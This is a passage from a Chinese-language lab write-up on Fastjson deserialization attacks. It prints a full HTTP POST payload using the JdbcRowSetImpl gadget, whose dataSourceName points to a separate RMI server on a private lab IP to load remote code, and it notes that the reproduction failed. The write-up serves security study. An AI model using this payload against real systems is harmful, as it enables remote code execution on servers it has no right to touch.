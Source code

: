 使用bp抓包,修改Host请求的主机是fastjson，并且设置datSourceName属性为rmi引用服务器的地址和端口。点击send发送。

![image-20240901150926360](反序列化渗透与防御/image-20240901150926360.png)	

```
payload:

POST / HTTP/1.1
Host: 192.168.15.50:8090
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 146
{
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "rmi://192.168.15.141:9473/LinuxTouch",
		"autoCommit": true
	}
}
```

于是即可在容器中查找到创建的文件，这里没有复现成功。

![image-20240901154531637](反序列化渗透与防御/image-20240901154531637.png)	
